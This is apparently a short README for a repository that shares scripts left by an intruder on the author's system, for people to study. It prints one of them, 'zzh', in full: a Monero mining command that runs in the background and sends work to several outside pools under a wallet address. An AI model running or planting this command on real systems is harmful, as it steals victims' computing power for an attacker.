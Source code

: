 # CatchIt
Caught a mouse that can write script.

Let's see his tricks.

Play with him.

**This guy left two main scripts: new_init.sh & zzh**

Other scripts are added by pull request.

zzh script:

./zzh --log-file=/tmp/tmp --keepalive --no-color --cpu-priority 5 -o dev.fugglesoft.me:5443 --tls --nicehash --coin monero -o 80.211.206.105:9000 -u 88MjAGcUuFzRM2AaUK1qoj9uTp9VBaFzDDUARzmTZL1XUU3DVVkAtxUUb5sHtFMisnSy5dSLQHfUBVdEVgwuwXm5E7LzQ4z.22 --tls --coin monero -o opn.en2an.top:5443 --tls --nicehash --coin monero --background
